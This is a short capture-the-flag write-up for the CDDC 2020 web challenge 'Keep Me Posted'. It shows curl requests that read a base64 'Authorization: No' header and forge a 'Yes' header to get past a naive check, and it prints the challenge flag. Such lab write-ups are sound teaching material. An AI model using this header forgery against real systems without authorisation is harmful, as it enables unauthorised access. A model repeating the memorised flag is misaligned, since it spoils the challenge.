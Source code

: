 # [Web-3] Keep Me Posted
Web

## Challenge 

DESCRIPTION
Some weird page. Looks fishy. Please help.

http://keepmeposted.chall.cddc2020.nshc.sg:1057/

## Solution

Hint: look at the response header.

	$ curl http://keepmeposted.chall.cddc2020.nshc.sg:1057/ -vvv
	*   Trying 157.230.246.85:1057...
	* TCP_NODELAY set
	* Connected to keepmeposted.chall.cddc2020.nshc.sg (157.230.246.85) port 1057 (#0)
	> GET / HTTP/1.1
	> Host: keepmeposted.chall.cddc2020.nshc.sg:1057
	> User-Agent: curl/7.68.0
	> Accept: */*
	> 
	* Mark bundle as not supporting multiuse
	< HTTP/1.1 200 OK
	< Date: Fri, 03 Jul 2020 15:51:08 GMT
	< Server: Apache/2.4.43 (Unix)
	< X-Powered-By: PHP/7.3.14
	< Authorization: Tm8=
	< Content-Length: 58
	< Content-Type: text/html; charset=UTF-8
	< 
	Who are you? Post me a letter and I might let you in heh.
	* Connection #0 to host keepmeposted.chall.cddc2020.nshc.sg left intact


We see an Authorization header.

- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Authorization

It is `Authorization: Tm8=` which is "No" in base 64. Send "Yes" instead.


	curl http://keepmeposted.chall.cddc2020.nshc.sg:1057/ --data "" -H "Authorization: $(printf 'Yes' | base64)"
	Congrats! Your flag is: CDDC20{YEs5SS_1_4m_aUTh0r1z3DDdD}

Alternatively, use this online tool.

- https://reqbin.com/req/yjok4snr

## Flag

	CDDC20{YEs5SS_1_4m_aUTh0r1z3DDdD}
